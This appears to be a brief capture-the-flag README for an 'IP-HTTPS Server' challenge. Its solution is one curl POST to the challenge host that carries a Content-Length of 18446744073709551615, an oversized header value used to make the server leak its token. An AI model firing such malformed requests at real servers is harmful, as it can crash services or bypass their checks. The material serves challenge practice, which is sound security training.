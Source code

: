 # IP-HTTPS Server

A simple webserver that returns the token when a [IP-HTTPS link is brought up](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-iphttps/140c6f34-dab5-47be-ba51-a48a6120b5ca).

## Solution

```bash
curl -k -X POST -H "Content-Length: 18446744073709551615" https://xmas.rip:16/IPHTTPS
```